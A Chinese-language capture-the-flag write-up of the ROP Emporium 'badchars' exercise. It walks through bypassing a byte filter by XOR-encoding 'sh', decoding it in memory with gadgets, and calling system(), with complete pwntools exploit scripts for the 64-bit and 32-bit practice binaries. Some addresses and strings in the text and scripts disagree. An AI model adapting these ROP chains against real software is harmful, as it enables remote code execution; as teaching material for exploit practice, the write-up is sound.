via：https://ropemporium.com/challenge/badchars.html

# badchars

An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit.
Click below to download the binary.

[64bit](https://ropemporium.com/binary/badchars.zip) [32bit](https://ropemporium.com/binary/badchars32.zip)

## The good, the bad

Dealing with bad characters is frequently necessary in exploit development and you've probably had to deal with them before when encoding shellcode. Badchars are the reason that encoders such as shikata-ga-nai exist. Remember whilst constructing your ROP chain that the badchars apply to every character you use, not just parameters but addresses too. *To mitigate the need for much RE the binary will list the badchars when you run it.*

### Options

ropper has a bad characters option to help you avoid using gadgets whose address will terminate your chain prematurely, it will certainly come in handy.

### Moar XOR

You'll still need to deal with writing a string into memory, similar to the write4 challenge, that may have badchars in it. Think about how we're going to overcome this obstacle; could we use gadgets to change the string once it's in memory? Are the mutations the badchars undergo predictable or could we remove them from our string entirely so we know what will end up in memory then change them later?

### Helper functions

It's almost certainly worth your time writing a helper function for this challenge. Perhaps one that takes as parameters a string, it's desired location in memory and an array of badchars. It could then write the string into memory and deal with the badchars afterwards. There's always a chance you could find a string that does what you want and doesn't contain any badchars either...


这道题对输入进行了过滤



在 `nstrlen` 中 



一旦字符有 `\n` 就会截断

在 `checkBadchars` 中



会一个一个字节去检查，如果输入包含 

```
\x62 \x69 \x63 \x2f \x20 \x66 \x6e \x73
```



的，把它替换成 \xeb




程序里面有 system 的 plt 了，但是没有 `sh`

我们只能通过输入，把 `sh` 放进内存里面去，

但是输入不能包含上面那些字符， `b`  `/` `s` 都过滤了

在 `usefulGadgets` 中



```asm
                         undefined usefulGadgets()
         undefined         AL:1           <RETURN>
                         usefulGadgets                                   XREF[1]:     Entry Point(*)  
    00400b30 45 30 37        XOR        byte ptr [R15],R14B
    00400b33 c3              RET
```
有一个 gadget 

```asm
XOR        byte ptr [R15],R14B
```

学过汇编的应该知道，其实就是把放在 `r14` 寄存器的一个字节字符和 `r15`  寄存器存的地址指向的那块内存的一个字节进行异或，然后把结果放在 `r15`   寄存器存的地址指向的那块内存上，记住是 `byte ptr` （我知道是什么意思，但是我可能描述不好，自己查一下吧，还有异或，我就不讲了）

我们只能用 异或处理 `sh` 后在放进内存去，因为这样能绕过那个过滤，一下我们能用上面的 `gadget` 还原字符串

异或的值选什么，用 `python` 写个脚本测试，要异或出来的结果不包含 `badchars`

```python
bin_sh = "sh\x00"
badchar = "\x62\x69\x63\x2f\x20\x66\x6e\x73"

j = 0;
for i in range(len(bin_sh)):
    tmp = chr(ord(bin_sh[i]) ^ j)
    if tmp in badchar:
        j = j + 1
        continue
    print(j)
```



发现异或 2 不会产生 `badchar`

好了，现在

看一下，哪个段可写的



选 `.data` 段（其他可写的段也是可以的）地址：`0x00601070`

写入处理后的 `sh`

这里需要一些 gadget 辅助写内存



```asm
0x0000000000400b3b : pop r12 ; pop r13 ; ret
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
```

 这两个 `gadget` 可以达到写内存的目的

试试看：

溢出点，`pwnme` -> `memcpy`

填充：`0x20 + 0x8` 为什么是 `0x20` 而不是 `0x30` 看 `memcpy` 的参数，是从 `rbp - 0x20` 开始写入的

找到 适合的 `gadget`(pop r15 ; ret , pop 14; ret 之类的)



通常是可以到的（因为动态链接 `__libc_csu_init()`,结尾会有，之后遇到 ret2csu 就知道了 ）

```
0x0000000000400b40 : pop r14 ; pop r15 ; ret
```

`pop r14 ; pop r15 ; ret` 位于：`0x0000000000400b40`

` pop r12 ; pop r13 ; ret` 位于 `0x0000000000400b3b`

`mov qword ptr [r13], r12 ; ret` 位于 `0x0000000000400b34`

`pop rdi ; ret` 位于 `0x0000000000400b39`

data段 地址：`0x00601070`

异或选 2 

写 payload:

```python
from pwn import *

# context.terminal = ["tmux", "split-window", "-h"]

badchars = ELF("./badchars")
p = process("./badchars")
bin_sh = "/bin/sh\x00"
fake_bin_sh = ''

pop_r12_r13_ret = 0x0000000000400b3b # pop r12 ; pop r13 ; ret
mov_r13_r12_ret = 0x0000000000400b34 # mov qword ptr [r13], r12 ; ret
pop_r14_r15_ret = 0x0000000000400b40 # pop r14 ; pop r15 ; ret
xor_r15_r14_ret = 0x00400b30 # xor byte ptr [R15],R14B
pop_rdi_ret = 0x0000000000400b39 # pop rdi; ret

data_section = 0x00601070 # 我们要写入处理后的 sh\x00 的内存地址

system_plt = badchars.plt["system"]

# 把 sh\x00 每个字节和 2 异或
for i in bin_sh:
    fake_bin_sh += chr(ord(i) ^ 2)
print(fake_bin_sh)

exp = "A" * 0x28
exp += p64(pop_r12_r13_ret)
exp += fake_bin_sh
exp += p64(data_section)
exp += p64(mov_r13_r12_ret)

for i in range(len(fake_bin_sh)):
    exp += p64(pop_r14_r15_ret)
    exp += p64(2)
    exp += p64(data_section + i)
    exp += p64(xor_r15_r14_ret)

# 再次异或 2 得到的结果是放在 data_section 的
exp += p64(pop_rdi_ret)
exp += p64(data_section)
exp += p64(system_plt)

# gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
```



pwn！


### x86

 一样的过滤

直接看漏洞点吧：



填充： `0x28 + 0x4` （不啰嗦，看汇编）

一样，找 `gadget` 写内存



可用：

```asm
0x080488f9 : pop esi ; pop edi ; pop ebp ; ret
0x08048893 : mov dword ptr [edi], esi ; ret
```

找一下哪一个段可写可读




选 `.bss` 段，地址：`0x0804a040`

在 `usefulGadgets()` 里找到 异或的 `gadget`



```asm
        08048890 30 0b           XOR        byte ptr [EBX],CL
        08048892 c3              RET
```

ROP 找到 

```asm
0x08048461 : pop ebx ; ret
0x08048897 : pop ecx ; ret
```

用来设置 ebx 和 ecx

ecx 是 32位寄存器可以分成两个 cx，cx 是16位，cx 可以分成 ch（高 8 位） cl（第 8 位）

所也这里是 pop ecx

一样，`sh` 异或 2

写 payload:

```python
from pwn import *

# context.terminal = ["tmux", "split-window", "-h"]
badchars32 = ELF("./badchars32")
p = process("./badchars32")

system_plt = badchars32.plt["system"]
data_section = 0x0804a038

pop_esi_edi_ebp_ret = 0x080488f9
mov_edi_esi_ret = 0x08048893

pop_ebx_ret = 0x08048461
pop_ecx_ret = 0x08048897
xor_ebx_cl_ret = 0x08048890

# 把每个字符都异或 2 绕过过滤
bin_sh = "sh\x00\x00"
fake_bin_sh = ''
for i in bin_sh:
    fake_bin_sh += chr(ord(i) ^ 2)

exp = "A" * 0x2c
exp += p32(pop_esi_edi_ebp_ret)
exp += fake_bin_sh
exp += p32(data_section)
exp += p32(0xdeadbeef)
exp += p32(mov_edi_esi_ret)

for i in range(len(fake_bin_sh)):
    exp += p32(pop_ebx_ret)
    exp += p32(data_section + i)
    exp += p32(pop_ecx_ret)
    exp += p32(2)
    exp += p32(xor_ebx_cl_ret)

exp += p32(system_plt)
exp += p32(0xdeadbeef)
exp += p32(data_section)

# gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
```



pwn！

